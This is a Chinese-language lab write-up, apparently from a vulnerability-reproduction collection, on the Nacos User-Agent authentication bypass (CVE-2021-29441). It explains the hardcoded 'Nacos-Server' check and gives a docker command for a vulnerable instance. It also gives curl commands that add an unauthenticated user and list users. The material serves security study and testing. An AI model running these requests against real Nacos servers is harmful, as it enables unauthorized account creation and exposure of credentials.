 ![nacos-no-auth](../images/nacos-no-auth.png)

## Nacos User-Agent 权限绕过漏洞(CVE-2021-29441)

该漏洞发生在 Nacos 在进行认证授权操作时，会判断请求的 `User-Agent` 是否为 "Nacos-Server"。如果是的话，则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。然而，由于配置过于简单，并且将协商好的 `User-Agent` 设置为 "Nacos-Server" 直接硬编码在了代码里，导致了漏洞的出现。利用这个未授权漏洞，攻击者可以获取到用户名、密码等敏感信息。

受影响版本：`<= 2.0.0-ALPHA.1`、`< 1.4.1`

### 漏洞环境

```bash
docker run --name nacos-bypass-auth -e MODE=standalone -e NACOS_AUTH_ENABLE=true -p 8080:8080 -p 8848:8848 -p 9848:9848 -p 7848:7848 -d nacos/nacos-server:1.4.0
```

### 漏洞利用

- 添加新用户，用户名和密码均为`vulhub`。

```curl -X POST -A Nacos-Server "http://192.168.200.1:8848/nacos/v1/auth/users?username=vulhub&password=vulhub"```

- 获取用户列表，判断添加用户是否成功。

```bash
curl -X GET -A Nacos-Server "http://192.168.200.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=1"
```

## Nacos API derby 未授权访问漏洞（CVE-2021-29442）
